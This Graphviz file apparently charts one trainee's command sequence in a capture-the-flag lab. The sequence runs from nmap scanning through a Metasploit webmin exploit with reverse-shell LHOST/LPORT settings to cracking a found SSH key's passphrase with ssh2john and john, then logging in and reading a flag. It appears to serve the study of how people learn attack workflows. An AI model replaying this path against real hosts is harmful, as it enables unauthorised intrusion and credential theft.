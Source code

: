 // creating graph for user: 84
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.5 A0 M0 A1 "]
	1 [label="nmap 172.18.1.5 V0 "]
	2 [label="ls A10 "]
	3 [label="metasploit U"]
	4 [label="msf-console U"]
	5 [label="sudo service postgresql start U"]
	6 [label="sudo msfdb init U"]
	7 [label="msfconsole A2 M2 "]
	8 [label="search webmin A3 M3 "]
	9 [label="use  A4 "]
	10 [label="use 2 A4 "]
	11 [label="check A7 "]
	12 [label="show options A5 M5 "]
	13 [label="set RHOST 172.18.1.5 A6 "]
	14 [label="set RPORT 10000 A6 M6 "]
	15 [label="check A7 "]
	16 [label="search webmin V3 "]
	17 [label="use ~ A4 "]
	18 [label="use 3 A4 "]
	19 [label="search webmin V3 "]
	20 [label="use 3 A4 "]
	21 [label="show options V5 "]
	22 [label="set SRVHOST 172.18.1.5 A6 "]
	23 [label="check A7 "]
	24 [label="set SRVHOST 0.0.0.0 A6 "]
	25 [label="set RHOST 172.18.1.5 A6 "]
	26 [label="check A7 "]
	27 [label="exploit A8 M8 "]
	28 [label="set LHOST 147.251.83.13 V6 "]
	29 [label="exploit V8 "]
	30 [label="set LPORT 12345 A6 "]
	31 [label="exploit V8 "]
	32 [label="set LHOST 100.100.100.2 V6 "]
	33 [label="exploit V8 "]
	34 [label="set LPORT  A6 "]
	35 [label="set LPORT 4444 A6 "]
	36 [label="exploit V8 "]
	37 [label="set LHOST 10.1.135.83 V6 "]
	38 [label="nmap 10.1.17.4 A0 A1 "]
	39 [label="ssh 10.1.17.4 A16 "]
	40 [label="ssh eve@10.1.17.4 A16 M16 "]
	41 [label="cd .ssh A16 "]
	42 [label="ls A10 "]
	43 [label="nano id_rsa U"]
	44 [label="ssh-add id_rsaaaa A16 "]
	45 [label="ssh_add id_rsa A16 "]
	46 [label="ssh-add id_rsaa A16 "]
	47 [label="ssh-add id_rsa A16 "]
	48 [label="chmod #033[2~ id_rsa A15 "]
	49 [label="exploit V8 "]
	50 [label="chmod 600 id_rsa A15 M15 "]
	51 [label="ssh-add id_rsa A16 "]
	52 [label="ssh-add id_rsa A16 "]
	53 [label="ssh eve@10.1.17.4 V16 "]
	54 [label="ls A10 "]
	55 [label="mv id_rsa ../id_rsa U"]
	56 [label="cd .. U"]
	57 [label="ll U"]
	58 [label="ls A10 "]
	59 [label="./ssh2john.py A14 A16 "]
	60 [label="./ssh2john.py id_rsa A14 A16 "]
	61 [label="./ssh2john.py id_rsa > hash A14 A16 "]
	62 [label="ls A10 "]
	63 [label="joh hash --show A5 "]
	64 [label="john hash --show A5 A14 "]
	65 [label="john hash --show A5 A14 "]
	66 [label="john hash --show A5 A14 "]
	67 [label="john hash A14 "]
	68 [label="gunzip /usr/share/wordlists/rockyou.txt.gz U"]
	69 [label="john --wordlist=/usr/share/wordlists/rockyou.txt hash A14 M14 "]
	70 [label="ssh eve@10.1.17.4 V16 "]
	71 [label="john --wordlist=/usr/share/wordlists/rockyou.txt hash > result V14 "]
	72 [label="cat result A1 A9 A11 A12 A17 "]
	73 [label="ssh eve@10.1.17.4 V16 "]
	74 [label="ssh eve@10.1.17.4 V16 "]
	75 [label="mv id_rsa .ssh/id_rsa A16 "]
	76 [label="ssh eve@10.1.17.4 V16 "]
	77 [label="ssh eve@10.1.17.4 V16 "]
	78 [label="ls A10 "]
	79 [label="cat top-secret A1 A9 A11 A12 A17 "]
	80 [label="cd top-secret U"]
	81 [label="ls -la A10 "]
	82 [label="cat flag.txt A17 M17 "]
	83 [label="ls A10 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	rankdir=LR
}

